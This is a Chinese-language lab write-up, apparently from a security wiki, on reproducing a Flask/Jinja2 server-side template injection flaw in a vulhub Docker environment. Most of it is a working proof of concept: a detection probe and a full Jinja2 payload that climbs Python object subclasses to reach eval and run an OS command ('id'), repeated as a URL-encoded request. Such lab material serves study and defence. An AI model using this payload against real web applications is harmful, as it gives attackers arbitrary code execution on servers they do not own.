 ```yaml
---
title: Jinja2 SSTI 服务端模版注入攻击
id: zhfly2990
---
```


# Flask / jinja2 SSTI 服务端模版注入攻击

## 一、漏洞简介

`SSTI`即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成`XSS`,任意文件读取，代码执行等一系列问题。

## 二、漏洞影响

## 三、复现过程

编译及运行测试环境：

```
docker-compose build
docker-compose up -d 
```

访问`http://www.0-sec.org/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %} 
```

访问`http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`，得到执行结果：

![image](../img/68674c9737e555b342368a6eb6708f82.png)

## 参考链接

> https://drops.org.cn/Python/flask-jinja2-ssti.html#directory072591889128396616

> https://vulhub.org/#/environments/flask/ssti/